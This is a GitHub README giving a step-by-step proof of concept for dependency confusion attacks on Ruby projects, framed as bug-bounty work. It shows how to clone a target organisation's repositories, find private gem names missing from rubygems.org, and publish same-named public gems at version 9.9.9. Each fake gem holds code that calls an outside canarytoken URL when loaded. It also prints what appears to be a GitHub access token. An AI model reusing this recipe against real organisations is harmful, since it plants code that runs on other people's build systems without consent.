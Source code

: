 <h1 align="center">
    <a href="https://www.youtube.com/@techghoshal"><img src="https://github.com/techghoshal/ruby_dependency_confusion_attacks/assets/85815644/53657150-65c2-4302-a929-fd08432e842f"></a>
<h1 align="center">Ruby Dependency Confusion Attacks POC
<p align="center"><img alt="Twitter Follow" src="https://img.shields.io/twitter/follow/techghoshal?style=social"></p>
</h1>
  
  
## How to Finds & How to Exploit
    
Finds Gemfile then check the all require here is public or not
    
`https://rubygems.org/gems/`

#### Download all target github repository
 
 - Crate personal access tokens (classic) - https://github.com/settings/tokens 
 - Install ghorg - https://github.com/gabrie30/ghorg#installation
    
 ```bash
$ ghorg clone <target> -t <token>
```
`example: $ ghorg clone microsoft -t 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`
    
- After Download all repository finds vulnerable ruby package 
    
```bash
$ find . -type f -name Gemfile | xargs -n1 -I{} cat {} | awk '/gem / {print}' | grep gem | cut -d "'" -f2 | sort -u | tr -d "'" | tr -d "," |  xargs -n1 -I{} echo "https://rubygems.org/gems/{}" |  httpx -status-code -silent -content-length -mc 404
```
- 404 code means this package not available publicly, so this the vulnerable to dependencies confusion attack.
    
- Then must be cross checking using github dorking - `org:microsoft package_name`
    
- So now Publish this ruby packages publicly (https://rubygems.org)
    
```bash
$ bundle gem <package_name>
```
- Everything set default
    
```bash
$ cd <package_name>
```
```bash
$ nano <package_name>.gem
```
- Replaced -
    
    ```bash
    Gem::Specification.new do |s|
      s.name        = "<package_name>"
      s.version     = "9.9.9"
      s.summary     = "Vulnerability Disclosure: Dependency confiuse vulnerability"
      s.description = "This Ruby package vulnerable to dependency confiuse vulnerability"
      s.authors     = ["<Anindya Ghoshal>"]
      s.email       = "<techghoshal@gmail.com>"
      s.files       = ["lib/<package_name>.rb"]
      s.homepage    =
        "https://rubygems.org/gems/<package_name>"
      s.license       = "MIT"
   end
   ```
 - Save this file
 
 ```bash
 $ cd lib
 ```
 - Replaced -
    
    ```bash
    module Techghoshal
       require 'net/http'
       result = Net::HTTP.get(URI.parse('<canarytokens_url>'))
    end
    ```
 - Save this file  
 
 ```bash
 $ cd ..
 ```
 ```bash
 $ gem build <package_name>.gemspec
 ```
- Upload file publicly (https://rubygems.org/)

- Create Accont on rubygems.org
    
 ```bash
 $ gem push <package_name>-9.9.9.gem 
 ```
- Enter your Email: `<email>`
- Enter your username: `<username>`
- Enter your password: `<password>`
    
---
    
<b>Upload IS DONE</b> 😎 
- Must be checking - https://rubygems.org/gems/package_name
- 🎉 Now Bounty Time 💰💰
 
## Connect me
If you have any queries & how can more improve this repository, you can always contact me on  <a href="https://twitter.com/techghoshal">twitter(@techghoshal)</a>
    
    
